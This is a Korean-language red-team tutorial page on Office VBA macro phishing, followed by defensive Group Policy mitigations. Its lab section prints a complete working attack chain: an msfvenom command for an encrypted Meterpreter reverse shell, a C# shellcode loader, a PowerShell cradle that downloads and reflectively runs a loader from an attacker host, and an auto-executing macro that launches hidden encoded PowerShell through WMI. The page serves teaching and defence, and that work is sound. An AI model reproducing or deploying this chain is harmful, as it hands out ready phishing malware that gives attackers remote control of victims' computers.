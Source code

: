 # 오피스 VBA 매크로

비쥬얼 베이직 어플리케이션 (VBA) 매크로는 마이크로소프트 오피스 제품들의 자동화를 도와주는 비쥬얼 베이직 6.0 기반의 프로그래밍 언어다. 보안적으로는 90년대부터 피싱 공격 첨부파일안의 악성코드를 실행하는데 많이 사용됐다.

2022년 기준 오피스 VBA 매크로를 사용한 초기 침투 및 피싱 공격은 성공하기 매우 어려워졌다. 마이크로소프트는 2022년 2월에 모든 오피스 제품들과 오피스365에서[ 기본적으로 매크로를 비활성화 하도록 패치](https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked)했다. 2022/07/07에 잠깐의 롤백이 있었지만 7월 24\~25일, 다시 인터넷에서 다운 받은 문서들의 VBA 매크로를 기본적으로 비활성화 시켰다. 30년 간의 매크로 피싱이 드디어 끝을 보이기 시작했다.

이제는 잘 쓰이지 않게 된 TTP지만 거의 30년 동안 공격자들이 사용했던 역사적인 가치가 있는 공격 기법이기 때문에 기초를 닦는다는 마음가짐으로 이 페이지에서 정리한다. 또한, 모두가 항상 오피스365를 쓰거나, 온-프레미스 오피스 버전들이 항상 최신 버전으로 업데이트 되는 것은 아니기 때문에 추후 몇 년 간은 매크로 기반의 페이로드들은 계속해서 쓰일 것이다.

### AutoOpen, Document\_Open

오피스 제품들에서 실행되는 VBA 매크로 중 AutoOpen() 과 Document\_Open() 함수는 파일을 열자마자 자동적으로 실행되는 함수다. 이를 막는 MotW (Mark of the Web), Protected Views, 그리고 Enable Content 등의 방어 기법들이 있어 요새는 문서를 연다고 해서 VBA 매크로가 자동적으로 실행되지는 않는다. 그러나 피해자 유저가 방어 기법들을 모두 비활성화 하거나 허용할 시 위에서 언급된 함수들이 실행된다.

### 실습

이번 실습에서는 다음과 같은 공격 체인을 만들어본다:

* 워드 프로세스 -> VBA 매크로 -> WMI -> 파워쉘 -> C# .NET 로더 -> Meterpreter

중간에 VBA 매크로에서 WMI를 사용하는 것은 쉘이 워드 프로세스 파일이 아닌 `WmiPrvSE.exe` 파일의 자식 프로세스로 생성되기 때문이다. 이 경우 피해자 유저가 워드 문서 파일을 닫아도 쉘은 살아있게 된다.

1. 먼저 Meterpreter 쉘코드를 `msfvenom` 을 이용해 만든다.

```
msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.40.182 lport=443 --encrypt aes256 --encrypt-key 'qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT' --encrypt-iv '?aEe(fG+KbPe23fz' -f csharp
```

2\. 이 Meterpreter 쉘을 로드해 실행할 C# .NET 로더를 만든다. 슬리버 C2의 스테이저 코드를 수정한 뒤 사용했다.

<details>

<summary>MeterStager.cs</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace MeterStager
{
    public class Stager
    {
        private static string aesKey = "qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT";
        private static string aesIV = "?aEe(fG+KbPe23fz";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            byte[] shellcode = new byte[720] {
            	
            < ... Meterpreter 쉘코드 ... >  

            };


            shellcode = Decrypt(shellcode, aesKey, aesIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)0xfff0000, 0x3000, 0x40);
            //Console.WriteLine("[+] addr: {0}", addr.ToInt64().ToString("x2"));
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            //Console.WriteLine("[+] shellcode length: {0}", shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

3\. 이후 이 MeterStager.cs C# .NET 로더는 파워쉘에 로드되어 실행된다. 공격자의 다른 서버 `192.168.40.179` 의 포트 9999에서 파일을 받아온 뒤, Reflection을 이용해 로드한 뒤, 메인 EntryPoint를 실행하도록 파워쉘 페이로드를 준비한다.

```
iex([System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:9999/MeterStager.exe'))).EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

위 파워쉘 페이로드를 VBA 매크로에 들어가도록 유틸 스크립트를 이용해 base64 인코딩 한다.

<details>

<summary>Invoke-VBAps.ps1</summary>

```powershell
$s = @'
 < your powershell payload here > 
'@
 
<# Just copy/paste everything below! #>
$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
}
```

</details>

4\. 이제 완성된 파워쉘 페이로드를 VBA 매크로에다가 집어넣은 뒤, 문서를 생성하면 된다.

<details>

<summary>go.vba</summary>

```vba
Sub Document_Open()
    test
End Sub

Sub AutoOpen()
    test
End Sub

Function test()
    Const HIDDEN_WINDOW = 12

    strComputer = "."
    Set objWMIService = GetObject("winmgmts:" _
        & "{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")

    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    
    Dim proc As Object
    Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    Dim str As String
    
    str = "powershell -exec bypass -nologo -nop -w hidden -enc " & _
    "aQBlAHgAKABbAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMAAuADEANwA5ADoAOQA5ADkAOQAvAFMAbABpAHYAZQBy" & _
    "AFMAdABhAGcAZQByAC4AZQB4AGUAJwApACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsACAAWwBPAGIAagBlAGMAdABbAF0AXQBAACgAQAAoACwAKABbAFMAdAByAGkAbgBnAFsAXQBdAEAAKAApACkAKQApACkA"
    
    errReturn = proc.Create(str, Null, objConfig, intProcessID)
End Function
```

</details>

Chameleon과 VBA script 난독화를 진행할 경우 디펜더 우회는 가능하지만, 모든 공격 PoC가 그렇듯 무기화는 진행하지 않는다.

실행하면 다음과 같은 결과가 나온다.

![](../../.gitbook/assets/blog-simple-vba.gif)

### 대응 방안

* 업데이트된 오피스 제품들이나 오피스365를 사용한다면 기본적으로 악성 VBA 매크로가 비활성화 되어 있다. - 라고 생각했지만 07/07일 마이크로소프트 사가 이를 [롤백](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)했다.
* 마이크로 오피스 전용 그룹 정책 Administrative Template File 을 다운 받은 뒤, 그룹 정책을 설정한다. 그룹 정책을 설정할 때에는 유저 그룹마다, 호스트 그룹마다 따로 GPO를 설정하는 것이 권장된다.
* 예를 들어, VBA 매크로 자체를 비활성화 해버리는 GPO의 경우 회계부서 OU 보다는 IT나 세일즈 유저들이 있는 OU에 링크 하는 것이 바람직할 것이다.
* VBA 비활성화 혹은 디지털 서명된 VBA만 사용 - `Computer/User Configuration\Policies\Administrative Templates\Microsoft Office XXXX\Security Settings\Disable VBA Office applications`
* 개인이나 GPO가 필요없는 소규모 네트워크의 경우 엔드 유저가 직접 비활성화 시킬수도 있다.
  * 워드 -> Options -> Trust Center -> Trust Center Settings -> Macro Settings -> VBA 완전 비활성화 혹은 디지털 서명된 VBA 만 허용

![](../../.gitbook/assets/endpoint-no-vba.png)

* 현 조직에서 매크로를 많이 사용한다면 인터넷에서 받은 문서+매크로 파일들만 비활성화 하는 GPO를 사용한다.
  * ![](<../../.gitbook/assets/image (13) (2).png>)
  * `User Configuration\Policies\Administrative Templates\Block macros from running in Office files from the Internet - Protected`
* 더 자세한 대응 방안은 레퍼런스를 참고한다.

### 레퍼런스

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=49030" %}

{% embed url="https://4sysops.com/archives/restricting-or-blocking-office-2016-2019-macros-with-group-policy/" %}

{% embed url="https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked#block-macros-from-running-in-office-files-from-the-internet" %}
